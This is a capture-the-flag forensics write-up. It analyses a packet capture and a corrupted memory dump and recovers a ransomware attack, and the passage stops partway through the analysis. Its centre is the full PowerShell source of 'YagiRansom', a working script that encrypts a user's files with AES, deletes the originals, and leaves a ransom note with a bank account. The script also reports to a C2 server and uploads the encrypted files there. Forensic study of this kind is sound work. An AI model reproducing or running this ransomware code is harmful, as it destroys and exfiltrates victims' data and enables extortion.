







## Challenge Description: 
Our client is a pessimist, she is worried that if she does not pay the ransom in the next 8 hours, the hacker will not give her any more chance to get her data back. We are trying to reassure her because we believe that our talented experts can find the cause and restore her data in less than 8 hours.

Author: bquanman

## Thought process
### File inspection
We are given a `.pcapng` and a `.DMP` file.


_Files given_

#### `.pcapng` file inspection

Opening the `.pcapng` file.


_Opened file_

Let's follow the TCP stream to check what was going on.


_TCP stream_

It seems to be encoded. We were given not only the `.pcapng` file but also a `.DMP` - a memory dump - maybe the encoding algorithm was in the memory dump. So let's leave the `.pcapng` there for now and inspect the memory dump.
#### memdump inspection
A memory dump suggests we use `Volatility`, so let's try it out.

```bash
┌──(d4nhwu4n㉿hide-and-seek)-[/mnt/e/CTF/UrgentTina SVATTT]
└─$ vol -f update.DMP windows.filescan
Volatility 3 Framework 2.11.0
Progress:  100.00               PDB scanning finished
Unsatisfied requirement plugins.FileScan.kernel.layer_name:
Unsatisfied requirement plugins.FileScan.kernel.symbol_table_name:

A translation layer requirement was not fulfilled.  Please verify that:
        A file was provided to create this layer (by -f, --single-location or by config)
        The file exists and is readable
        The file is a valid memory image and was acquired cleanly

A symbol table requirement was not fulfilled.  Please verify that:
        The associated translation layer requirement was fulfilled
        You have the correct symbol file for the requirement
        The symbol file is under the correct directory or zip file
        The symbol file is named appropriately or contains the correct banner

Unable to validate the plugin requirements: ['plugins.FileScan.kernel.layer_name', 'plugins.FileScan.kernel.symbol_table_name']
```

Hmm, the memory dump seems to be corrupted. Let's see if there's any workaround.

-> After trying some popular functions, I concluded that the memory dump was corrupted.

Let's try something like `strings` and output to a file to see the memory dump content.


_Strings Content_

This is fascinating. A program called `update.exe` was executed in the user's `Desktop`.

```powershell
"c:\users\ieuser\desktop\update.exe" -e c:\users\ieuser\documents\ -s 192.168.240.1 -p 443 -x
```

> -e c:\users\ieuser\documents\: Best guess is the program extracts the data to the `Documents` folder of the user
{: .prompt-info }
> -s 192.168.240.1: Maybe sends the data to a server at 192.168.240.1
{: .prompt-info }
> -p 443: Uses port 443
{: .prompt-info }
> -x: Unknown 
{: .prompt-info }
And PowerShell module was called -> This suggests the executed program could have used PowerShell to run a script.

So now we must find the PowerShell script executed within the memory dump.


_Strings Content (Powershell code block)_
A PowerShell sciprt block was found right below the place we found where the program was executed. The script is pretty long.

```powershell
# Design
$ProgressPreference = "SilentlyContinue"
$ErrorActionPreference = "SilentlyContinue"
$OSVersion = [Environment]::OSVersion.Platform
if ($OSVersion -like "*Win*") {
$Host.UI.RawUI.WindowTitle = "YagiRansom" 
$Host.UI.RawUI.BackgroundColor = "Black"
$Host.UI.RawUI.ForegroundColor = "White" }
# Variables
$Mode = $args[0]
$Directory = $args[1]
$WiETm = $args[3]
$7CiB = $args[3]
$UFX = $args[5]
$ENyR = $args[6]
$DCe = $null
# Errors
if ($args[0] -like "-h*") { break }
if ($args[0] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[1] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[2] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[3] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
# Proxy Aware
[System.Net.WebRequest]::DefaultWebProxy = [System.Net.WebRequest]::GetSystemWebProxy()
[System.Net.WebRequest]::DefaultWebProxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
$AllProtocols = [System.Net.SecurityProtocolType]"Ssl3,Tls,Tls11,Tls12" ; [System.Net.ServicePointManager]::SecurityProtocol = $AllProtocols
# Functions
$OgE = ([Environment]::MachineName).ToLower() ; $zVSza = ([Environment]::UserName).ToLower() ; $I26 = "yaginote.txt"
$7VEq = Get-Date -Format "HH:mm - dd/MM/yy" ; $Uz19o = $7VEq.replace(":","").replace(" ","").replace("-","").replace("/","")+$zVSza+$OgE
if ($OSVersion -like "*Win*") { $domain = (([Environment]::UserDomainName).ToLower()+"\") ; $slash = "\" } else { $domain = $null ; $slash = "/" } 
$DirectoryTarget = $Directory.Split($slash)[-1] ; if (!$DirectoryTarget) { $DirectoryTarget = $Directory.Path.Split($slash)[-1] }
function Invoke-AESEncryption {
   [CmdletBinding()]
   [OutputType([string])]
   Param(
       [Parameter(Mandatory = $true)]
       [String]$Key,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
       [String]$Text,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
       [String]$Path)
   Begin {
      $m95I = New-Object System.Security.Cryptography.SHA256Managed
      $n9ibn = New-Object System.Security.Cryptography.AesManaged
      $n9ibn.Mode = [System.Security.Cryptography.CipherMode]::CBC
      $n9ibn.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
      $n9ibn.BlockSize = 128
      $n9ibn.KeySize = 256 }
   Process {
      $n9ibn.Key = $m95I.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))
      if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
      if ($Path) {
         $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
         if (!$File.FullName) { break }
         $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
         $outPath = $File.FullName + ".enc" }
      $encryptor = $n9ibn.CreateEncryptor()
      $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
      $encryptedBytes = $n9ibn.IV + $encryptedBytes
      $n9ibn.Dispose()
      if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
      if ($Path) {
         [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
         (Get-Item $outPath).LastWriteTime = $File.LastWriteTime }}
  End {
      $m95I.Dispose()
      $n9ibn.Dispose()}}
function RemoveWallpaper {
$code = @"
using System;
using System.Drawing;
using System.Runtime.InteropServices;
using Microsoft.Win32;
namespace CurrentUser { public class Desktop {
[DllImport("user32.dll", SetLastError = true, CharSet = CharSet.Auto)]
private static extern int SystemParametersInfo(int uAction, int uParm, string lpvParam, int fuWinIni);
[DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
private static extern int SetSysColors(int cElements, int[] lpaElements, int[] lpRgbValues);
public const int UpdateIniFile = 0x01; public const int SendWinIniChange = 0x02;
public const int SetDesktopBackground = 0x0014; public const int COLOR_DESKTOP = 1;
public int[] first = {COLOR_DESKTOP};
public static void RemoveWallPaper(){
SystemParametersInfo( SetDesktopBackground, 0, "", SendWinIniChange | UpdateIniFile );
RegistryKey regkey = Registry.CurrentUser.OpenSubKey("Control Panel\\Desktop", true);
regkey.SetValue(@"WallPaper", 0); regkey.Close();}
public static void SetBackground(byte r, byte g, byte b){ int[] elements = {COLOR_DESKTOP};
RemoveWallPaper();
System.Drawing.Color color = System.Drawing.Color.FromArgb(r,g,b);
int[] colors = { System.Drawing.ColorTranslator.ToWin32(color) };
SetSysColors(elements.Length, elements, colors);
RegistryKey key = Registry.CurrentUser.OpenSubKey("Control Panel\\Colors", true);
key.SetValue(@"Background", string.Format("{0} {1} {2}", color.R, color.G, color.B));
key.Close();}}}
try { Add-Type -TypeDefinition $code -ReferencedAssemblies System.Drawing.dll }
finally {[CurrentUser.Desktop]::SetBackground(250, 25, 50)}}
function PopUpRansom {
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Drawing")  
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Windows.Forms") 
[void] [System.Windows.Forms.Application]::EnableVisualStyles() 
Invoke-WebRequest -useb https://www.mediafire.com/view/wlq9mlfrlonlcuk/yagi.png/file -Outfile $env:temp\YagiRansom.jpg
Invoke-WebRequest -useb https://www.mediafire.com/file/s4qcg4hk6bnd2pe/Yagi.ico/file -Outfile $env:temp\YagiRansom.ico
$shell = New-Object -ComObject "Shell.Application"
$shell.minimizeall()
$form = New-Object system.Windows.Forms.Form
$form.ControlBox = $false;
$form.Size = New-Object System.Drawing.Size(900,600) 
$form.BackColor = "Black" 
$form.MaximizeBox = $false 
$form.StartPosition = "CenterScreen" 
$form.WindowState = "Normal"
$form.Topmost = $true
$form.FormBorderStyle = "Fixed3D"
$form.Text = "YagiRansom"
$formIcon = New-Object system.drawing.icon ("$env:temp\YagiRansom.ico") 
$form.Icon = $formicon  
$img = [System.Drawing.Image]::Fromfile("$env:temp\YagiRansom.jpg")
$pictureBox = new-object Windows.Forms.PictureBox
$pictureBox.Width = 920
$pictureBox.Height = 370
$pictureBox.SizeMode = "StretchImage"
$pictureBox.Image = $img
$form.controls.add($pictureBox)
$label = New-Object System.Windows.Forms.Label
$label.ForeColor = "Cyan"
$label.Text = "All your files have been encrypted by YagiRansom!" 
$label.AutoSize = $true 
$label.Location = New-Object System.Drawing.Size(50,400) 
$font = New-Object System.Drawing.Font("Consolas",15,[System.Drawing.FontStyle]::Bold) 
$form.Font = $Font 
$form.Controls.Add($label) 
$label1 = New-Object System.Windows.Forms.Label
$label1.ForeColor = "White"
$label1.Text = "But don
t worry, you can still recover them with the recovery key if you pay the ransom in the next 8 hours." 
$label1.AutoSize = $true 
$label1.Location = New-Object System.Drawing.Size(50,450)
$font1 = New-Object System.Drawing.Font("Consolas",15,[System.Drawing.FontStyle]::Bold) 
$form.Font = $Font1
$form.Controls.Add($label1) 
$okbutton = New-Object System.Windows.Forms.Button;
$okButton.Location = New-Object System.Drawing.Point(750,500)
$okButton.Size = New-Object System.Drawing.Size(110,35)
$okbutton.ForeColor = "Black"
$okbutton.BackColor = "White"
$okbutton.FlatStyle = [System.Windows.Forms.FlatStyle]::Flat
$okButton.Text = 'Pay Now!'
$okbutton.Visible = $false
$okbutton.Enabled = $true
$okButton.DialogResult = [System.Windows.Forms.DialogResult]::OK
$okButton.add_Click({ 
[System.Windows.Forms.MessageBox]::Show($this.ActiveForm, 'Your payment order has been successfully registered!', 'YagiRansom Payment Processing System',
[Windows.Forms.MessageBoxButtons]::"OK", [Windows.Forms.MessageBoxIcon]::"Warning")})
$form.AcceptButton = $okButton
$form.Controls.Add($okButton)
$form.Activate() 2>&1> $null
$form.Focus() 2>&1> $null
$btn=New-Object System.Windows.Forms.Label
$btn.Location = New-Object System.Drawing.Point(50,500)
$btn.Width = 500
$form.Controls.Add($btn)
$btn.ForeColor = "Red"
$startTime = [DateTime]::Now
$count = 10.6
$7VEqr=New-Object System.Windows.Forms.Timer
$7VEqr.add_Tick({$elapsedSeconds = ([DateTime]::Now - $startTime).TotalSeconds ; $remainingSeconds = $count - $elapsedSeconds
if ($remainingSeconds -like "-0.1*"){ $7VEqr.Stop() ; $okbutton.Visible = $true ; $btn.Text = "0 Seconds remaining.." }
$btn.Text = [String]::Format("{0} Seconds remaining..", [math]::round($remainingSeconds))})
$7VEqr.Start()
$btntest = $form.ShowDialog()
if ($btntest -like "OK"){ $Global:PayNow = "True" }}
function R64Encoder { 
   if ($args[0] -eq "-t") { $VaFQ = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($args[1])) }
   if ($args[0] -eq "-f") { $VaFQ = [Convert]::ToBase64String([IO.File]::ReadAllBytes($args[1])) }
   $VaFQ = $VaFQ.Split("=")[0] ; $VaFQ = $VaFQ.Replace("C", "-") ; $VaFQ = $VaFQ.Replace("E", "_")
   $8bKW = $VaFQ.ToCharArray() ; [array]::Reverse($8bKW) ; $R64Base = -join $8bKW ; return $R64Base }
function GetStatus {
   Try { Invoke-WebRequest -useb "$7CiB`:$UFX/status" -Method GET 
      Write-Host "[i] C2 Server is up!" -ForegroundColor Green }
   Catch { Write-Host "[!] C2 Server is down!" -ForegroundColor Red }}
function SendResults {
   $cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ; $cVl = R64Encoder -t $cvf
   $2YngY = "> $cVl > $OgE > $zVSza > $7VEq"
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch
   $XoX = R64Encoder -t $2YngY ; $B64Logs = R64Encoder -t $RansomLogs
   Invoke-WebRequest -useb "$7CiB`:$UFX/data" -Method POST -Body $XoX 2>&1> $null
   Invoke-WebRequest -useb "$7CiB`:$UFX/logs" -Method POST -Body $B64Logs 2>&1> $null }
function SendClose {
   Invoke-WebRequest -useb "$7CiB`:$UFX/close" -Method GET 2>&1> $null }
function SendPay {
   Invoke-WebRequest -useb "$7CiB`:$UFX/pay" -Method GET 2>&1> $null }
function SendOK {
   Invoke-WebRequest -useb "$7CiB`:$UFX/done" -Method GET 2>&1> $null }
function CreateReadme {
   $I26TXT = "All your files have been encrypted by YagiRansom!!`nBut don't worry, you can still recover them with the recovery key if you pay the ransom in the next 8 hours.`nTo get decryption instructions, you must transfer 100000$ to the following account:`n`nAccount Name: Mat tran To quoc Viet Nam - Ban Cuu Tro Trung uong`n`nAccount Number: 0011.00.1932418`n`nBank: Vietnam Joint Stock Commercial Bank for Foreign Trade (Vietcombank)`n"
   if (!(Test-Path "$Directory$slash$I26")) { Add-Content -Path "$Directory$slash$I26" -Value $I26TXT }}
function EncryptFiles { 
   $ExcludedFiles = '*.enc', 'yaginote.txt', '*.dll', '*.ini', '*.sys', '*.exe', '*.msi', '*.NLS', '*.acm', '*.nls', '*.EXE', '*.dat', '*.efi', '*.mui'
   foreach ($i in $(Get-ChildItem $Directory -recurse -exclude $ExcludedFiles | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) { 
   Invoke-AESEncryption -Key $WiETm -Path $i ; Add-Content -Path "$Directory$slash$I26" -Value "[!] $i is now encrypted" ;
   Remove-Item $i }
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch ; if (!$RansomLogs) { 
   Add-Content -Path "$Directory$slash$I26" -Value "[!] No files have been encrypted!" }}
function ExfiltrateFiles {
   Invoke-WebRequest -useb "$7CiB`:$UFX/files" -Method GET 2>&1> $null 
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "No files have been encrypted!" ; if (!$RansomLogs) {
   foreach ($i in $(Get-ChildItem $Directory -recurse -filter *.enc | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) {
      $Pfile = $i.split($slash)[-1] ; $B64file = R64Encoder -f $i ; $B64Name = R64Encoder -t $Pfile
      Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
   else { $B64Name = R64Encoder -t "none.null" ; Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
function CheckFiles { 
   $RFiles = Get-ChildItem $Directory -recurse -filter *.enc ; if ($RFiles) { $RFiles } else {
   Write-Host "[!] No encrypted files found!" -ForegroundColor Red }}
# Main
if ($Mode -eq "-d") { 
   Write-Host ; Write-Host "[!] Shutdowning...." -ForegroundColor Red; sleep 1 }
else {
   Write-Host ;
   Write-Host "[+] Checking communication with C2 Server.." -ForegroundColor Blue
   $DCe = GetStatus ; sleep 1
   $WiETm = -join ( (48..57) + (65..90) + (97..122) | Get-Random -Count 24 | % {[char]$_})
   Write-Host "[!] Encrypting ..." -ForegroundColor Red
   CreateReadme ; EncryptFiles ; if ($DCe) { SendResults ; sleep 1
   if ($ENyR -eq "-x") { Write-Host "[i] Exfiltrating ..." -ForegroundColor Green
      ExfiltrateFiles ; sleep 1 }}
   if (!$DCe) { Write-Host "[+] Saving logs in yaginote.txt.." -ForegroundColor Blue }
   else { Write-Host "[+] Sending logs to C2 Server.." -ForegroundColor Blue }}
   if ($args -like "-demo") { RemoveWallpaper ; PopUpRansom
   if ($PayNow -eq "True") { SendPay ; SendOK } else { SendClose ; SendOK }}
   else { SendOK }
sleep 1000 ; Write-Host "[i] Done!" -ForegroundColor Green ; Write-Host
```
### PowerShell code block analysis
- Section:
   - `#Design`: Suppresses the PowerShell errors and messages to avoid detection, detects if the system is Windows or not. If the system is Windows, changes the terminal to `YagiRansom` and changes the background to black and foreground to white.
   - `#Error`: Checks if all the required parameters are provided; if not, prints an error and exits.
   - `#Proxy Aware`: Ensures the script uses the system proxy settings as well as compatibility with multiple TLS (Transport Layer Security) protocols.
   - `#Functions`: There are many functions in this section.
     - `$OgE`: Stores the machine name.
     - `$zVSza`: Stores the username.
     - `$I26`: Stores the ransom note file name.
     - `Invoke-AESEncryption`: Encrypts files using AES-256 encryption. Encrypts either text (-Text) or files (-Path) and output encrypted data as a Base64 string or a new .enc file.
     - `RemoveWallpaper`: Removes the desktop wallpaper and set a solid red background.
     - `PopUpRansom`: Displays a ransom pop-up window and a countdown timer before enabling the `Pay Now!` button. 
     - `R64Encoder`: Encodes text or file contents into a Base64 format.
     - `C2 Communication`: 
       - `GetStatus`: Checks if the C2 server is online.
       - `SendResults`: Send encryption results to the C2 server.
       - `SendClose`: Tell the C2 server that the process was completed.
       - `SendPay`: Tell the C2 server that the ransom was paid.
       - `SendOK`: Final confirmation to the C2 server.
     - `CreateReadme`: Creates `yaginote.txt` with: Ransom message and Bank Account.
     - `EncryptFiles`: Encrypts all files in a directory and deletes the original.
     - `ExfiltrateFiles`: Uploads encrypted file to the C2 server.
     - `CheckFiles`: Check if any `.enc` files exist in `$Directory`
     - `Main`: Execute the main flow. 
  
> From the code we could see the program flow will be:
> 1. Check the OS, the `args` and setup proxy for the C2
